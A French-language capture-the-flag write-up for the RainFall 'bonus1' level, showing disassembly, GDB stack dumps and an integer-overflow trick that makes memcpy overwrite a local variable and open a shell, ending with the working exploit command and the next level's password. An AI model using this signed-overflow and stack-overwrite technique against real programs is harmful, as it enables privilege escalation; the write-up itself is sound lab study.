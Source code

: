 # Bonus 1

Ce que nous pouvons lire :

- Le programme attend deux arguments.
- Un atoi est là pour convertir le 1er argument en integer et on met le resultat dans une variable (local_14).
- S'il est strictement inférieur a 10 on entre danas la condition.
- Nous mettons le deuxième argument dans une variable (buffer) alouée 40 char sur la stack avec memcpy, en spécifiant une longueur totale de la valeur de atoi * 4 (donc 36 max.)
- Enfin, si la variable local_14 est égale à l'adresse "0x574f4c46", un shell est ouvert avec les droits supérieurs.

Nous devons donc modifier la valeur de local_14 et pour se faire utiliser memcopy pour l'écraser.

Mais comment vu que nous pouvons copier que 36 char.

```
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   ====>  0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
```
Dans GDB :

- Nous allons poser un breakpoint juste après l'appel de memcpy pour voir ce qu'il se passe sur la stack.

```
Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
===> 0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
===> 0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
```

L'adresse du buffer est "0xbffff6c4", 36 "A" sont copiés, puis viens l'adresse d'EIP pour retrouver la suite du programme, et ensuite nous constatons que "local_14" est juste après.

La technique utilisée pour écraser cette adresse, va être d'exploiter la non vérification de l'INT_MIN (local_14 < 10) pour augmenter la taille du nombre de char copié dans memcpy.

En effet, donner un nombre aux alentours du INT MIN va modifier les 32 bits et donner un nombre positif au buffer.

Exemple :
```
Starting program: /home/user/bonus1/bonus1 9 Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009 <=== 9 * 4 = 36 char copiés.


Starting program: /home/user/bonus1/bonus1 -2147483648 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000000	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x00080000	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000000 <=== 0 char copié.


Starting program: /home/user/bonus1/bonus1 -2147483647 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000004	0x080482fd
===> 0xbffff6b0:	0xb7fd13e4	0x41414141	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000001 <=== 1 * 4 = 1 char copié et (local_14 vaut 0x80000001)
```

Après plusieurs essais nous arrivons à trouver la valeur du 1er argument pour pouvoir copier 44 chars et ecraser la valeur de local_14.

```
Starting program: /home/user/bonus1/bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x0000002c	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141 <===
```

nous avons donc le 1er argument, le deuxième consiste à écrire 40 * "A" + l'adresse de la condition "0x574f4c46".

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ pwd
/home/user/bonus1
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
